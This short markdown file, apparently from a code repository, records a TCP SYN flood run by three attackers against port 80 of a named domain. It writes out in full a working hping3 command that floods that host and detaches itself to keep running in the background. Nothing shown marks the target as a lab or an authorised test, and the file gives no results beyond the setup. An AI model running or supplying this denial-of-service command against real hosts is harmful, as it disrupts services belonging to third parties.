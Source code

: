 # Attack Results

## Description

- Type: TCP SYN Flood
- Number of attackers: 3
- Target port: 80
- Microseconds between packets: 20
- Target: radiumoxide.com
- Attack tool: hping3
- Attack Command: `sudo nohup hping3 -q -i u20 -S -p 80 -c 100000 radiumoxide.com > /dev/null & disown`

